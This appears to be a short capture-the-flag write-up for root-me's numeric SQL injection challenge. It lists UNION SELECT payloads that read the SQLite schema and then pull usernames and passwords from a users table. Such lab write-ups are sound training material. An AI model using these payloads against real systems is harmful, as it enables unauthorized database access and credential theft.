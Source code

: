 # SQL injection: numeric

[root-me challenge: SQL-injection-Numeric](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-Numeric): Retrieve the administrator password.

----

```text
news_id=1' UNION SELECT NULL --
```

```text
SQLite3::query()
```

Using [PayloadAllTheThings: SQLiteInjection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md):

```text
news_id=1 UNION SELECT NULL,sql,NULL FROM sqlite_master --
```

```text
news_id=1 UNION SELECT NULL,username,password FROM users --
```
